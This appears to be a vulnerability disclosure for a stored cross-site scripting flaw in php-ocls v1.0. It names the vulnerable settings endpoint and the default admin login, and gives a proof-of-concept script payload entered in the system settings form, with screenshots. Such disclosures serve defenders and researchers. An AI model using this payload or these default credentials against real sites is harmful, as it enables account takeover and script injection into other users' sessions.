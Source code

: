 # php-ocls<=v1.0 Authenticated Stored Cross-Site Scripting(XSS)

## Description

    php-ocls<=v1.0 /php-ocls/classes/SystemSettings.php?f=update_settings interface has a verified xss vulnerability

## source code

    php-ocls<=1.0
    Software Link: https://www.sourcecodester.com/php/16397/online-computer-and-laptop-store-using-php-and-mysql-source-code-free-download.html

## Author

    yangfan2@webray.com.cn inc  

## Proof of Concept

1. login system(default: admin:admin&123)

   /php-ocls/admin/login.php

| ![image-20240816163739350](https://raw.githubusercontent.com/0xffaaa/cve/main/php-ocls-Arbitrary%20File%20Upload.assets/image-20240816163739350.png) |
| ------------------------------------------------------------ |

2. System Information Settings

   input

   ```
   /><script>alert(1);</script>
   ```

| ![image-20240816165315627](https://raw.githubusercontent.com/0xffaaa/cve/main/php-ocls-Arbitrary%20Stored%20Cross-Site%20Scripting(XSS).assets/image-20240816165315627.png) |
| ------------------------------------------------------------ |

submit

| ![image-20240816165359397](https://raw.githubusercontent.com/0xffaaa/cve/main/php-ocls-Arbitrary%20Stored%20Cross-Site%20Scripting(XSS).assets/image-20240816165359397.png) |
| ------------------------------------------------------------ |

